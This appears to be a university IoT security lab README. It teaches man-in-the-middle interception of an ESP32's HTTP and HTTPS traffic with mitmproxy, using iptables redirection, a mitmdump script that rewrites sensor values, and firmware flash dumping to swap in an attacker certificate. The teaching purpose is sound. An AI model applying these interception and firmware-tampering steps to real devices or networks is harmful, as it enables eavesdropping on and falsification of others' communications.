




# MITM attacks against HTTP and HTTPS with mitmproxy

In this project, we will learn how to monitor and modify HTTP/HTTPS traffic using mitmproxy. Through the use of mitmproxy we can manually modify HTTP/HTTPS traffic or use mitmdump along with a python script to modify the HTTP/HTTPS queries automatically. These tools can be used for real attacks and for the purpose of understanding communication protocols.

Mitmproxy is a set of SSL/TLS-capable proxy tools that can intercept HTTP/HTTPS, Websocket, and generic TCP flows. The mitmproxy toolset contains three front-end tools, which work with the same core proxy. 
- *mitmproxy*: an interactive, SSL/TLS-capable intercepting proxy with a console interface.
- *mitmweb*: a web-based interface for mitmproxy.
- *mitmdump*: the command-line version of mitmproxy.

## Goal
The figure below shows the original network setup. The ESP32 communicates with the web server using HTTP or HTTPS. The attacker wants to find out the protocol used in the communication between the ESP32 and web server.



The figure below shows how the attacker can use a man-in-the-middle (MITM) attack to perform traffic analysis and understand the communication protocol. The mitmproxy system sits between the ESP32 and web server, and because of this mitmproxy can intercept the HTTP/HTTPS traffic. This demonstration utilizes a simplified scenario: mitmproxy is hosted on the same computer as the web server. In reality, mitmproxy can be hosted on a standalone computer, which can work as a WiFi router to which the esp32 would connect. In this more complicated scenario, we can continue to intercept esp32 traffic and analyze the communication protocol.


## 1. (Optional) Hardware setup 
This project requires an ES32 board, along with the installation of [esp-idf](https://docs.espressif.com/projects/esp-idf/en/latest/esp32/get-started/linux-macos-setup.html) and [esp-idf-lib](https://esp-idf-lib.readthedocs.io/en/latest/). These are already installed in the Ubuntu-VM; With esp-idf located at ``` /home/iot/esp/ ```, and the AHT sensor library is located in the ``` /home/iot/esp/esp-idf-lib/components ``` directory. The ESP32 will read the AHT data and send it to a web server at the Ubuntu VM. The IP address of the web server is hard-coded into the firmware code. The ESP32 and Ubuntu VM should be connected to the same WiFi router.


## 2. Software setup 

### (Optional) Install Apache web server on the Ubuntu VM

The following commands can be used in a terminal at the Ubuntu VM to install an Apache web server. Take note that the *#* indicates a comment in the code block below.
```sh
# Update package index of available packages
sudo apt update
# Install  Apache web server.
sudo apt install apache2
```
You can test the installed server by typing the IP address of the host VM in a web browser.


### Enable HTTPS on Apache web server

The hardest part of this setup is enabling HTTPS on the Apache web server. Please refer to [How To Enable HTTPS Protocol with Apache 2 on Ubuntu 20.04](https://www.rosehosting.com/blog/how-to-enable-https-protocol-with-apache-2-on-ubuntu-20-04/) for more details. 


The following video shows an example of how we can set up HTTPS on the Apache web server.

[](https://youtu.be/4PwXGR39zpg)

- The following command creates the HTTPS web server's private key (/etc/ssl/private/server_key.key) and self-signed SSL certificate (/etc/ssl/certs/server_cert.crt). Do **NOT** protect the private key of the web server with a password since the web server will not be able to start without a user entering the password. While running this command, the *common name* of the web server must be the IP address of the Ubuntu VM what hosts the web server.
    ```sh
    sudo openssl req -x509 -nodes -days 365 -newkey rsa:2048 -keyout /etc/ssl/private/server_key.key -out /etc/ssl/certs/server_cert.crt
    ```

- Edit the configuration file that specifies and configures a VirtualHost as the HTTPS server. With VirtualHosts, user requests can be directed to multiple host names or IP addresses on the same host computer. Each virtual host can offer different content and act differently.
    We provide an example HTTPS VirtualHost configuration file [my-server.conf](web/my-server.conf) in this repository. Copy the example my-server.conf to ``` /etc/apache2/sites-available/ ```using the sudo command if needed. 

- Enable the SSL module and HTTPS server. Restart apache2 to start both HTTP and HTTPS servers. It appears we shall not use the full path of my-server.conf with a2ensite. The following command is just fine.
    ```sh 
    # Enable SSL (HTTPS)
    sudo a2enmod ssl
    # Restart Apache web server service, this applies our changes
    systemctl restart apache2
    # Enables our VirtualHost site
    sudo a2ensite my-server.conf
    # Make Apache re-read configuration files and apply changes
    systemctl reload apache2
    ```

### (Optional) Install PHP 
Install PHP and the Apache PHP module by running the following commands.
```sh
sudo apt install php libapache2-mod-php
```
Restart Apache2 server to apply the changes.
```sh
sudo systemctl restart apache2.service
```

Refer to the [Fix php](#Fix-php-not-working) section if PHP does not work.

### (Optional) Copy PHP script to web folder 
Copy the [test_get.php](web/test_get.php) file in this repository to the ``` /var/www/html ``` directory on the Ubuntu VM. The PHP script returns the temperature and humidity data sent from the ESP32 back to the ESP32 for the purpose of acknowledgment. 
We can also test the server by visiting the following link in a browser: *https://Ubuntu-VM-IP/test_get.php?Temperature=21&Humidity=20*, which sends Temperature=21 and Humidity=20 values to the web server.


### (Optional) Install mitmproxy 
Download mitmproxy using the command below. Note that if you ran ``` sudo apt update ```  previously, it is not needed here.
```sh
sudo apt install mitmproxy
```

### (Optional) Clone this project 

**Note**: By default, this project is already located in the ``` ~/esp/IoT-Examples/ ``` directory of the Ubuntu VM.

Download this project to Ubuntu VM, start VS code and use *File*->*Open Folder...* to load the project.
```sh
cd ~/Documents
git clone https://github.com/xinwenfu/mitmproxy-get.git
```

   
## 3. Set up iptables to intercept HTTP traffic
Mitmproxy listens on port 8080 by default. To monitor HTTP and HTTPS flows, we need to redirect traffic sent to ports 80 and 443 of the host using the [iptables](https://linux.die.net/man/8/iptables) tool. We use iptables to redirect traffic to the port that mitmproxy listens on. Take note that these changes will be lost once the computer reboots unless additional measures are taken.

Enable IP forwarding with the following command.
```sh
sudo sysctl -w net.ipv4.ip_forward=1
```

Create an iptables rule set that redirects desired traffic to mitmproxy
```sh
# Redirect all TCP traffic directed at port 443 (HTTPS) to port 8080
sudo iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-port 8080
# Redirect all TCP traffic directed at port 80 (HTTP) to port 8080
sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port 8080
```

We can check that the iptables rules have been added using the following command
```sh
sudo iptables -t nat -L
```

We can remove the created iptables rules as follows
```sh
sudo iptables -t nat -F
```

## 4. MITM against HTTP

### Start mitmproxy
To start the mitmproxy program with a console interface, open a command terminal and type in the command below. This should be done in the directory mitmproxy of this project for later tasks.
```sh
# Enter into the mitmproxy directory
cd ./mitmproxy
# Start the mitmproxy console interface
mitmproxy
```

### Monitor HTTP flows
Let’s test if mitmproxy can detect and monitor the HTTP flows between the ESP32 and Apache web server.

Run the HTTP version of the firmware on ESP32 and observe the HTTP requests in mitmproxy. This can be done with the following steps.
1. Open the *mitm_request* directory in this repository.  
2. Open the [request.c](http_request/main/request.c) file and modify the serverName variable. 
    ```c
    // Change ubuntu-vm-ip below to your Ubuntu VM IP
    char* serverName = "ubuntu-vm-ip/test_get.php";
    ```
**Note**:
The code *request.c* supports both HTTP and HTTPS connections through a macro definition in the code.  Make sure the code has the correct macro definition defined in the tasks described below. Also make sure both macro definitions **are not** used simultaneously.

Enable the *FU_HTTP* definition as follows to connect to the server using HTTP.
```
#define FU_HTTP
```

Enable the *FU_HTTPS* definition as follows to connect to the server using HTTPS.
```
#define FU_HTTPS
```
3. Modify the configuration using ``` idf.py menuconfig ``` in the ESP-IDF terminal or GUI option.
    * Add the WiFi SSID and Password in the Example WIFi Configuration menu.
4. Build the project.
5. Flash the project.
6. Utilize the Serial Monitor to verify the program is connecting to the WiFi and sending requests.

    
    
### Intercept and modify HTTP traffic (script) 

Stop mitmproxy by pressing *CTL+C* or by pressing *q* and then *y*.

Now we can use *mitmdump* with a Python script to modify the intercepted HTTP traffic sent from ESP32 automatically.
Set up the ESP32 and make sure that you can see responses from the web server in the VS code console using the method described in [monitor HTTP flows](#monitor-http-flows).

Let’s create the [python script](https://docs.mitmproxy.org/stable/addons-examples/) in the VM. 
Create a .py file and copy the following code to this file and save it. Take note that this already exists as [http-query.py](mitmproxy/http-query.py) in this repository. Remember to replace \<host_ip\> with your Ubuntu VM’s ip which can be found using ``` ifconfig ``` or ```ip a``` in a terminal.
```py
"""Modify HTTP query parameters."""
from mitmproxy import http

Servername = "http://<host_ip>/test_get.php"

def request(flow: http.HTTPFlow) -> None:
    if Servername in flow.request.pretty_url:
        flow.request.query["Temperature"] = "10000"
        flow.request.query["Humidity"] = "10000"
```

We can run the script to modify the intercepted traffic using the following command:
```sh
# The path can be added if we are not in the mitmproxy folder. 
mitmdump -s http-query.py
```   
You will see the responses from the server are modified when looking at the output in the Serial Monitor.


    
## 5. MITM against HTTPS

Mitmproxy is able to [decrypt encrypted traffic on the fly](https://docs.mitmproxy.org/stable/concepts-howmitmproxyworks/). There are two methods to enable such functionality.
1. Create a private key and self-signed certificate for mitmproxy and install mitmproxy’s certificate on the client device, i.e., the ESP32 in our case. This is more realistic in practice. However, this method has its own challenge. For this to succeed, the attacker needs to embed mitmproxy's certificate into the client device. This often requires a significant amount of reverse engineering of the client device.

The figure below shows the web server has a public (contained in the certificate) and private key pair (e<sub>S</sub>, d<sub>S</sub>), where e<sub>S</sub> is the public key and d<sub>S</sub> is the private key. Mitmproxy has a public (contained in the certificate) and private key pair (e<sub>m</sub>, d<sub>m</sub>) and is configured to ignore validating the certificate of the web server. The ESP32 contains e<sub>m</sub>.



2. Use the web server's private key and self-signed certificate as the mitmproxy certificate and key pair. The method is not that realistic. In practice, attackers often want to analyze the communication between a device and a server. It is not hard for the attacker to get a client device, from which they can extract the certificate. For example, they can just purchase one. However, it is much harder for the attacker to get the server's private key. 

The figure below shows the web server has a public (contained in the certificate) and private key pair (e<sub>S</sub>, d<sub>S</sub>), where e<sub>S</sub> is the public key and d<sub>S</sub> is the private key. mitmproxy has the same public and private key pair as the web server (e<sub>m</sub>, d<sub>m</sub>). The ESP32 contains e<sub>S</sub>.


We show the first method in [Section 7](#7-Replace-certificate-in-firmware) of this page. The second method is easy to deploy, and we use this method to demonstrate the principle of decrypting HTTPS traffic with mitmproxy. 

1. We first generate the required PEM format file required by mitmproxy by running the following command:
    ```sh
    # Change directory to documents, or wherever you are running mitmproxy from.
    cd ~/Documents
    # Create the pem format, sudo is required due to the /etc/ssl/private/my-server.key
    sudo cat /etc/ssl/private/server_key.key /etc/ssl/certs/server_cert.crt > mitmCA.pem
    ```
2. Run mitmproxy with the two parameters described below to observe the decrypted HTTPS requests
    ```
    mitmproxy --certs *=/home/iot/Documents/mitmCA.pem --ssl-insecure
    ```
   - Description of parameters 
     - --certs *=/home/iot/Documents/mitmCA.pem: configure mitmproxy to use the self-signed cert
     - --ssl-insecure: do not verify server certs, when forwarding to the server
3. Open the [request.c](http_request/main/request.c) file and modify define macro to activate HTTPS.
4. Copy the web server's certificate to the folder of *server_certs* of this project
5. Build and flash the new firmware
6. Observe the captured HTTPS packets 
    
7. After observing the captured packets, we can run mitmdump to change the HTTPS requests. Note: *http-query.py* will need to be changed to reflect the HTTPS url of the server.
    ```
    mitmdump --certs *=/home/iot/Documents/mitmCA.pem --ssl-insecure -s ./http-query.py
    ```
    

## 6. Reset iptables

After the tasks are done, iptables will need to be reset. Otherwise, normal web browsing may be messed up until the system is restarted.

Reset iptables by restarting the VM, or by running commands. 
```sh
# Flush (clear) the nat table rules 
sudo iptables -t nat -F
# Disable ipv4 forwarding
sudo sysctl -w net.ipv4.ip_forward=0
```

## 7. (Optional) Replace certificate in firmware 
We now demonstrate a more realistic example of using mitmproxy to perform traffic analysis of the ESP32 application that uses HTTPS. 
Here is the scenario that we consider: a victim ESP32 device communicates with the web server via HTTPS, and contains the web server's certificate. The attacker wants to use mitmproxy to analyze the network traffic between the ESP32 and the web server. We assume the attacker cannot get the web server's private key. Therefore, the attacker needs to generate a private key and certificate for mitmproxy and replace the victim device's certificate with mitmproxy's certificate.

In this demo, we use the ESP-IDF environment to build the firmware of the victim ESP32 device. In the ESP-IDF environment, when we create a private key and certificate for the web server, we will need to specify a start date earlier today for the certificate. Otherwise, while connecting to the web server, *tls* at the ESP32 will report the error "The certificate validity starts in the future". The *faketime* package can be used to this end
```sh
# Install the faketime package
sudo apt install faketime
# Use faketime to fake the time and generate a certificate
sudo faketime '2021-12-24 08:15:42' openssl req -x509 -nodes -days 365 -newkey rsa:2048 -keyout mitm_server.key -out mitm_server.crt
```

We will be able to use the "mitm_request" example provided in this repository and esp-idf's native *idf.py* commands to demonstrate this. 

First, open a terminal and enter the [following command](https://docs.espressif.com/projects/esp-idf/en/stable/esp32/get-started/).
    ```
    . $HOME/esp/esp-idf/export.sh
    ```
Another complexity is by default the bootloader of the ESP32 performs image/firmware validation before booting. When we change the firmware with a hex editor and replace only the certificate, the ESP32 will not boot. The checksum for image validation has to be changed too. 

For simplicity, we disable image validation by the bootloader through menuconfig
```sh
idf.py menuconfig
```


WiFi credentials should be set from the precious uses, but they are changed through menuconfig. 


Use the following command to build the firmware
```sh
idf.py build
```
Use the following command to flash the firmware and monitor
```sh
# Note that -p /dev/ttyUSB0 may need to be replaced with -p /dev/ttyACM0 
idf.py -p /dev/ttyUSB0 flash monitor
```
Make sure the firmware works.


We previously showed how to dump the firmware and use a hex editor to modify it in [ESP32 UART and Flash Hack](https://github.com/xinwenfu/ESP32-UART-and-Flash-Hack). Here we will show how you can replace the certificate in the ESP32's firmware with mitmproxy's certificate.

1. Dump the entire flash of the ESP32
```sh
esptool.py read_flash 0 0x400000 flash_contents.bin
```

2. Use [HxD](https://mh-nexus.de/en/hxd/) or [wxhexeditor](https://www.texteditors.org/cgi-bin/wiki.pl?WxHexEditor) to find the certificate in the flash and replace it via *Edit* -> *Paste write*
    
3. The modified firmware can now be written back into the ESP32 via the following command
```sh
esptool.py write_flash 0 flash_contents.bin
```

Now we can perform the mitmproxy attack again with the following configurations 
- The web server has its own private key and certificate. 
- mitmproxy has its own private key and certificate. 
  - We can generate the PEM file used with ``` cat mitm_server.key mitm server.crt > mitm_server.pem ```
- The ESP32 firmware uses mitmproxy's certificate.

The picture below shows mitmproxy can intercept the HTTPS request from the ESP32.


## Notes

### Reset HTTPS
To reset apache2 and remove the apache2 config files use the following command.
```sh
sudo apt-get purge apache2
```

### Fix PHP
After installing PHP, if PHP does not work, use the following commands to fix it.
```sh
sudo a2dismod mpm_event
sudo systemctl restart apache2
sudo a2enmod mpm_prefork
sudo systemctl restart apache2
sudo a2enmod php7.0
sudo systemctl restart apache2
```

### Disable apache2 virtual host entry

The following [commands](https://itorn.net/disable-remove-virtual-host-website-entry-in-apache/) disable an apache2 virtual host (server) and restart apache2.
```sh
sudo a2dissite my-server
sudo service apache2 reload
```

### Intercept and modify HTTP traffic (manually)

To intercept requests with specific URLs, you need to enable the interception function and use specific filter expressions.

To enable the interception function, press **i** while using mitmproxy. You will see shown at the bottom of the console.
```
set intercept ''
```


    
    
We use filter expressions *~u \<regex>* to only intercept specific URLs and *~q* to only intercept requests. *&* is used to connect two expressions. More filter expressions can be found [here](https://docs.mitmproxy.org/stable/concepts-filters/).

Type in *~u /test_get.php & ~q*, then press **ENTER**.


Now let’s visit the same URL again. This time, you will find your browser keeps loading. This is because the HTTP request is intercepted by mitmproxy. The intercepted requested is indicated with red text in the mitmproxy console.


To modify the intercepted connection, put the focus (>>) on that flow using arrow keys and then press **ENTER** to open the details view.
Press *e* to edit the flow. Select a query by using arrow keys and press **ENTER**.


    
    
Mitmproxy shows all query key and value pairs for editing.
Select the value that you want to modify, and press ENTER to edit it.
After finishing editing a value, press ESC to confirm it.


    
Press *q* to quit editing mode.
Press *a* to resume the intercepted flow. You will find the changed values shown in your browser.

To stop mitmproxy, Press *Ctrl+c*, then press *y*.
